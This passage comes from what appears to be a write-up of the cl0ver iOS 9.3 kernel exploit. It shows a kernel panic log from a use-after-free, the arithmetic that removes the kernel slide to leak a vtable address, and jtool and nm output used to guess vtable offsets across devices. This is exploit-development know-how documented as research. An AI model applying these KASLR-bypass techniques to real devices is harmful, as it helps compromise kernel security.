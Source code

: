     panic(cpu 0 caller 0xffffff801befcc1c): "Kernel instruction fetch abort: pc=0xffffff801c2ef1f0 iss=0xf far=0xffffff801c2ef1f0. Note: the faulting frame may be missing in the backtrace."
    Debugger message: panic
    OS version: 13G34
    Kernel version: Darwin Kernel Version 15.6.0: Mon Jun 20 20:10:22 PDT 2016; root:xnu-3248.60.9~1/RELEASE_ARM64_S8000
    iBoot version: iBoot-2817.60.2
    secure boot?: YES
    Paniclog version: 5
    Kernel slide:     0x0000000017e00000
    Kernel text base: 0xffffff801be04000
    Epoch Time:        sec       usec
      Boot    : 0x58225b8c 0x00000000
      Sleep   : 0x00000000 0x00000000
      Wake    : 0x00000000 0x00000000
      Calendar: 0x58225bec 0x00028e96

    Panicked task 0xffffff811d67bdc0: 78 pages, 1 threads: pid 748: cl0ver
    panicked thread: 0xffffff811f2f9000, backtrace: 0xffffff8012f03120
              lr: 0xffffff801bf043c4  fp: 0xffffff8012f03170
              lr: 0xffffff801be2e11c  fp: 0xffffff8012f031d0
              lr: 0xffffff801befcc1c  fp: 0xffffff8012f032c0
              lr: 0xffffff801befb1f0  fp: 0xffffff8012f032d0
              lr: 0xffffff801c1f0678  fp: 0xffffff8012f03720
              lr: 0xffffff801c25b4cc  fp: 0xffffff8012f03840
              lr: 0xffffff801bedaa00  fp: 0xffffff8012f038a0
              lr: 0xffffff801be194c8  fp: 0xffffff8012f03a30
              lr: 0xffffff801be27b78  fp: 0xffffff8012f03ad0
              lr: 0xffffff801befd6b0  fp: 0xffffff8012f03ba0
              lr: 0xffffff801befbd40  fp: 0xffffff8012f03c90
              lr: 0xffffff801befb1f0  fp: 0xffffff8012f03ca0
              lr: 0x00000001819b0fd8  fp: 0x0000000000000000

`0xffffff801c2ef1f0 - 0x0000000017e00000 = 0xffffff80044ef1f0`, there we go.

*The full implementation of this can be found in the `uaf_panic_leak_vtab` function in [`uaf_panic.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/uaf_panic.c).*

#### The ugly: semi-blind guessing

Disclaimer: I can't promise that this will work for every device and OS version, but it did on my iPod.

Our target is iPod5,1/9.3.2, so let's first look at 9.3.2 for some other devices:

    $ jtool -l -v iPhone4,1/kernel | head -9
    LC 00: LC_SEGMENT               Mem: 0x80001000-0x803e6000      File: 0x0-0x3e5000      r-x/r-x __TEXT
            Mem: 0x80002000-0x803931a8      File: 0x00001000-0x003921a8             __TEXT.__text   (Normal)
            Mem: 0x803931b0-0x803a916c      File: 0x003921b0-0x003a816c             __TEXT.__const  
            Mem: 0x803a916c-0x803e59dd      File: 0x003a816c-0x003e49dd             __TEXT.__cstring        (C-String Literals)
    LC 01: LC_SEGMENT               Mem: 0x803e6000-0x8045c000      File: 0x3e5000-0x411000 rw-/rw- __DATA
            Mem: 0x803e6000-0x803e60e8      File: 0x003e5000-0x003e50e8             __DATA.__nl_symbol_ptr  
            Mem: 0x803e60e8-0x803e61f0      File: 0x003e50e8-0x003e51f0             __DATA.__mod_init_func  (Module Init Function Ptrs)
            Mem: 0x803e61f0-0x803e62f4      File: 0x003e51f0-0x003e52f4             __DATA.__mod_term_func  (Module Termination Function Ptrs)
            Mem: 0x803e7000-0x803f67a0      File: 0x003e6000-0x003f57a0             __DATA.__const
    $ nm iPhone4,1/kernel | grep __ZTV8OSString
    803ece8c S __ZTV8OSString
    $ jtool -l -v iPhone4,1/kernel | head -9
    LC 00: LC_SEGMENT               Mem: 0x80001000-0x803ee000      File: 0x0-0x3ed000      r-x/r-x __TEXT
            Mem: 0x80002000-0x8039acc0      File: 0x00001000-0x00399cc0         __TEXT.__text   (Normal)